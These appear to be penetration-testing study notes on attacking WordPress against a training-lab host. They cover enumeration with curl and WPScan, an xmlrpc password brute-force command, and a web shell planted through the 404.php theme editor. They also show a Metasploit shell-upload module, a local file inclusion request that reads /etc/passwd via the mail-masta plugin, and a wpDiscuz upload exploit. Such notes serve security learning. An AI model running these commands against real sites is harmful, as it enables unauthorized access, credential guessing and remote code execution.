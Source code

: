 # WordPress - Discovery & Enumeration
## Discovery/Footprinting
- Browsing to the /robots.txt
- /wp-admin and /wp-content
- Plugins stored in the wp-content/plugins directory
- Themes are stored in the wp-content/themes directory


## Enumeration
Check the page source of other pages
```
curl -s http://blog.inlanefreight.local | grep WordPress
```
```
curl -s http://blog.inlanefreight.local/ | grep themes
```
```
curl -s http://blog.inlanefreight.local/ | grep plugins
```

### WPScan
WPScan is an automated WordPress scanner and enumeration tool. It determines if the various themes and plugins used by a blog are outdated or vulnerable. It’s installed by default on Parrot OS but can also be installed manually with gem.
```
sudo wpscan --url http://blog.inlanefreight.local --enumerate --api-token <SNIP>
```

# Attacking WordPress
## Login Bruteforce
### WPScan
WPScan can be used to brute force usernames and passwords. The scan report in the previous section returned two users registered on the website (admin and john). The tool uses two kinds of login brute force attacks, xmlrpc and wp-login. The wp-login method will attempt to brute force the standard WordPress login page, while the xmlrpc method uses WordPress API to make login attempts through /xmlrpc.php. The xmlrpc method is preferred as it’s faster.
```
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```
The `--password-attack` flag is used to supply the type of attack. 
The `-U` argument takes in a list of users or a file containing user names. 
This applies to the `-P` passwords option as well.

### Code Execution
Access to WP Admin 
Appearance -> Select 404.php -> `system($_GET[0]);`-> Update File -> 
```
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```
Using Metasploit
`wp_admin_shell_upload` -> `msf6 > use exploit/unix/webapp/wp_admin_shell_upload`

## Leveraging Known Vulnerabilities

### Vulnerable Plugins - mail-masta
```
curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

### Vulnerable Plugins - wpDiscuz
```
python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1
```
```
curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id
```

## WordPress Shells
https://www.hackingarticles.in/wordpress-reverse-shell/
